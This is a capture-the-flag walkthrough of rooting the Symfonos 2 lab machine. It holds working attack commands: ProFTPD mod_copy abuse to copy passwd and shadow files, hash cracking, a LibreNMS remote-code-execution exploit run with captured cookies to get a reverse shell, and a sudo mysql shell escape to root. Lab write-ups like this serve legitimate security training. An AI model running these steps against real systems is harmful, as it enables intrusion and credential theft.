




# Symfonos 2

## Nmap Scan
```
disastrpc symfonos2 λ nmap -sV -p- -T4 -oN nmap.allports 10.1.62.37       
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5 
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -3h00m01s, deviation: 3h27m50s, median: -5h00m01s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2020-11-13T15:30:06-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-13T21:30:06
|_  start_date: N/A
```

## SMB Shares

```
disastrpc symfonos2 λ smbclient -L \\\\10.1.62.37\\anonymous
Enter WORKGROUP\disastrpc's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available
disastrpc symfonos2 λ smbclient \\\\10.1.62.37\\anonymous
Enter WORKGROUP\disastrpc's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 18 10:30:09 2019
  ..                                  D        0  Thu Jul 18 10:29:08 2019
  backups                             D        0  Thu Jul 18 10:25:17 2019

                19728000 blocks of size 1024. 16312456 blocks available
smb: \> 
```

log.txt file found inside share containing useful info.

FTP anonymous access is enabled under ftp alias:	

```
<Anonymous ~ftp>
  User                          ftp
  Group                         ftp
```

The SMB "anonymous" share is located inside the user's home directory:

> path = /home/aeolus/share

## Enum4Linux

Found 2 users:

```
S-1-22-1-1000 Unix User\aeolus (Local User)                                        
S-1-22-1-1001 Unix User\cronus (Local User)  
```

## FTP Enum

Even though we get a login failed authenticating as anonymous we can still copy files.

```
disastrpc symfonos2 λ ftp 10.1.62.37                                                                                                                         
Connected to 10.1.62.37.                                                                                                                                     
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.1.62.37]                                                                                         
Name (10.1.62.37:disastrpc): anonymous                                                                                                                       
331 Anonymous login ok, send your complete email address as your password                                                                                    
Password:                                                                                                                                                    
530 Login incorrect.                                                                                                                                         
Login failed.                                                                                                                                                
Remote system type is UNIX.                                                                                                                                  
Using binary mode to transfer files.
ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /home/aeolus/share/passwd
250 Copy successful
ftp> site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
ftp> site cpto /home/aeolus/share/shadow.bak
250 Copy successful
```

## Cracking Hashes

The files are now available on the *Samba* share:

```
disastrpc symfonos2 λ smbclient \\\\10.1.62.37\\anonymous
Enter WORKGROUP\disastrpc's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 14 06:50:50 2020
  ..                                  D        0  Thu Jul 18 10:29:08 2019
  passwd                              N     1614  Sat Nov 14 06:49:59 2020
  backups                             D        0  Thu Jul 18 10:25:17 2019
  shadow.bak                          N     1173  Sat Nov 14 06:50:50 2020

                19728000 blocks of size 1024. 16312348 blocks available
smb: \> get passwd 
getting file \passwd of size 1614 as passwd (98.5 KiloBytes/sec) (average 98.5 KiloBytes/sec)
smb: \> get shadow.bak 
getting file \shadow.bak of size 1173 as shadow.bak (286.4 KiloBytes/sec) (average 136.1 KiloBytes/sec)
smb: \> 
```

Unshadow the passwd and shadow files for john compatibility and crack:

```
disastrpc symfonos2 λ unshadow passwd shadow.bak > unshadow.hash
disastrpc symfonos2 λ john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.hash 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sergioteamo      (aeolus)
```

## SSH Login w/ *aeolus*

```
disastrpc symfonos2 λ ssh aeolus@10.1.62.37
aeolus@10.1.62.37's password: 
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 18 08:52:59 2019 from 192.168.201.1
aeolus@symfonos2:~$ 
```

There is an instance of *Apache2* running as *root*:

```
root       516  0.0  4.8 410492 37272 ?        Ss   Nov13   0:02 /usr/sbin/apache2 -k start
cronus   18789  0.0  1.2 410524  9692 ?        S    06:25   0:00  \_ /usr/sbin/apache2 -k start
cronus   18790  0.0  1.2 410524  9692 ?        S    06:25   0:00  \_ /usr/sbin/apache2 -k start
cronus   19107  0.0  1.2 410524  9692 ?        S    06:25   0:00  \_ /usr/sbin/apache2 -k start
cronus   19108  0.0  1.2 410524  9692 ?        S    06:25   0:00  \_ /usr/sbin/apache2 -k start
cronus   19109  0.0  1.2 410524  9692 ?        S    06:25   0:00  \_ /usr/sbin/apache2 -k start
```

We check the running services and it seems to be running on port 8080 which we can verify with curl:

```
aeolus@symfonos2:/$ curl localhost:8080
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url=http://localhost:8080/login" />

        <title>Redirecting to http://localhost:8080/login</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost:8080/login">http://localhost:8080/login</a>.
    </body>
</html>
```

We can setup an SSH tunnel in order to browse to this site:

> disastrpc symfonos2 λ ssh -N -L 4242:localhost:8080 aeolus@10.1.62.37

Setup a Firefox to use our tunnel at *127.0.0.1:4242* and connect to the site:




Trying to login with invalid creds gives us the following error:



However *aeolius:sergioteamo* gives us a login:


*LibreNMS* is vulnerable to an authenticated remote code execution attack.

Searchsploit reveals *CVE-2018-20434* (*47044.py*) which allows us to execute commands on the servers context by supplying a valid cookie. 

We log in and capture a request from the website using Burp. We see that it contains a *librenms_session* cookie attached.

The script takes the raw cookies and splits them by the ; and = characters.
```
# request cookies
cookies = {}
for cookie in raw_cookies.split(";"):
    # print cookie
    c = cookie.split("=")
    cookies[c[0]] = c[1]
```



Run the exploit with our nc listener on port 4240:

```
disastrpc symfonos2 λ python 47044.py http://127.0.0.1:4242 "XSRF-TOKEN=eyJpdiI6Ind6bk5nVkxEbVA3ZUNENjRUYUsrbUE9PSIsInZhbHVlIjoiZDVcL29WUzZ3Z1wvZ1pyQjVzcEt4d
UF2UGxWR01lWUNoTHpuaUROMEg3NXVKZTBMRFVJdytsb2pEWitLdG1WQzUyQ2Z4TUl6Ym1Ya1kzbEpaUWdpYllTQT09IiwibWFjIjoiNTM3YjQzNjJlNWQyMWM4NzE2M2UwYWVlOGU4N2NlODk2NDAwOTgzYz
QwNjc5MDg5NDkyNDU0YzYwMzNiNjNjMCJ9;librenms_session=eyJpdiI6IjFvNGNWdHRreVdHYWtEeEMxYjdwYkE9PSIsInZhbHVlIjoiYnFRTHB0YTlNWVl6NWI4Sk1EUUZSWFwvWnZ6d3RoVGFaYk9mS
lBQYlNcLzFNUGgyODBqWWVvQThGV3laYkRIUnJNUVBnUXlybzRENVNLV2hpd1VCRGhVUT09IiwibWFjIjoiMDE2YzZmMmQ5NmQ5YzMxYmY3NGYyODg2OGE0ZDY3ZGUwMjJhNDU4NmJlZjQ3MjUwMThjNmJkNG
FiNGQzNjk2ZSJ9;PHPSESSID=akgiusbnvpua0pchsqu48q2l01" 10.1.62.33 4240
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
[+] Device Created Sucssfully

# On listener:

disastrpc symfonos2 λ nc -nlvp 4240
listening on [any] 4240 ...
connect to [10.1.62.33] from (UNKNOWN) [10.1.62.37] 56882
/bin/sh: 0: can't access tty; job control turned off
$ whoami
cronus
$ 
```

We elevate our shell:
```
disastrpc symfonos2 λ nc -nlvp 4240                                                                                                                   [13/13]
listening on [any] 4240 ...                                                                                                                                  
connect to [10.1.62.33] from (UNKNOWN) [10.1.62.37] 56882                                                                                                    
/bin/sh: 0: can't access tty; job control turned off                                                                                                         
$ whoami                                                                                                                                                     
cronus                                                                                                                                                       
$ python -c 'import pty; pty.spawn("/bin/bash");'                                                                                                            
cronus@symfonos2:/opt/librenms/html$ ^Z                                                                                                                      
[1]+  Stopped                 nc -nlvp 4240                                                                                                                  
disastrpc symfonos2 λ stty raw -echo                                                                                                                         
nc -nlvp 4240fonos2 λ                                                                                                                                        
             reset                                                                                                                                           
reset: unknown terminal type unknown                                                                                                                         
Terminal type? ^C                                                                                                                                            
cronus@symfonos2:/opt/librenms/html$ export SHELL=/bin/bash
cronus@symfonos2:/opt/librenms/html$ export TERM=tmux-256color
cronus@symfonos2:/opt/librenms/html$ stty rows 39 columns 157
```

The user cronus is allowed to run the *mysql* binary as root with no password, this can be exploited to gain a root shell.

```
cronus@symfonos2:/$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
cronus@symfonos2:/$ sudo mysql -e '\! /bin/bash'
root@symfonos2:/# whoami
root
root@symfonos2:~# cat /root/proof.txt 

        Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
    / , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

        Contact me via Twitter @zayotic to give feedback!

root@symfonos2:~# 
```


